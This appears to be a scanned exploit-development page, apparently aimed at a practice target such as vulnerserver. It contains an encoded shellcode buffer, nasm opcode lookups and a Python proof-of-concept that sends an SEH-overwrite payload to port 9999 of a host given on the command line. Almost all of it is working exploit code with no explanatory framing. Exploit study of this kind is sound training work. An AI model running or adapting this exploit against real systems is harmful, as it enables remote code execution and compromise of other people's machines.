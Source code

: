 ```term
buf += b"\x59\x6c\x4b\x56\x54\x4e\x6b\x35\x51\x79\x46\x64\x71"
buf += b"\x4b\x4f\x6e\x4c\x7a\x61\x5a\x6f\x46\x6d\x56\x61\x78"
buf += b"\x47\x67\x48\x49\x70\x73\x45\x4a\x56\x44\x43\x73\x4d"
buf += b"\x7a\x58\x77\x4b\x43\x4d\x65\x74\x31\x65\x68\x64\x72"
buf += b"\x78\x6c\x4b\x31\x48\x34\x64\x73\x31\x5a\x73\x75\x36"
buf += b"\x4c\x4b\x76\x6c\x50\x4b\x6e\x6b\x76\x38\x77\x6c\x76"
buf += b"\x61\x5a\x73\x6c\x4b\x74\x44\x4e\x6b\x35\x51\x6a\x70"
buf += b"\x4c\x49\x37\x34\x47\x54\x64\x64\x43\x6b\x51\x4b\x65"
buf += b"\x31\x76\x39\x70\x5a\x33\x61\x49\x6f\x4d\x30\x53\x6f"
buf += b"\x33\x6f\x43\x6a\x6c\x4b\x65\x42\x48\x6b\x4c\x4d\x71"
buf += b"\x4d\x31\x7a\x75\x51\x6e\x6d\x6b\x35\x48\x32\x63\x30"
buf += b"\x67\x70\x33\x30\x30\x50\x55\x38\x45\x61\x6e\x6b\x52"
buf += b"\x4f\x6f\x77\x4b\x4f\x4e\x35\x6f\x4b\x6d\x30\x47\x6d"
buf += b"\x44\x6a\x66\x6a\x31\x78\x4c\x66\x4e\x75\x4f\x4d\x6f"
buf += b"\x6d\x4b\x4f\x68\x55\x67\x4c\x33\x36\x71\x6c\x77\x7a"
buf += b"\x6b\x30\x69\x6b\x59\x70\x30\x75\x73\x35\x4d\x6b\x72"
buf += b"\x67\x57\x63\x53\x42\x52\x4f\x63\x5a\x53\x30\x36\x33"
buf += b"\x59\x6f\x58\x55\x53\x53\x70\x61\x42\x4c\x70\x63\x46"
buf += b"\x4e\x72\x45\x32\x58\x65\x35\x53\x30\x41\x41"
```

```term
nasm > PUSH EBX
00000000  53                push ebx
nasm > POP EAX
00000000  58                pop eax 
```

###### PoC code:

```term
import socket, sys, struct

[shellcode]

alignment = ""
alignment += "\x54\x58\x54\x5B"
alignment += "\x66\x05\x58\x13"
alignment += "\x50\x5C"
alignment += "\x53\x58"

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3 + buf + "A" * (3515  - 3 - len(buf)) + nseh + seh + "A" * 2 + alignment + "A" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

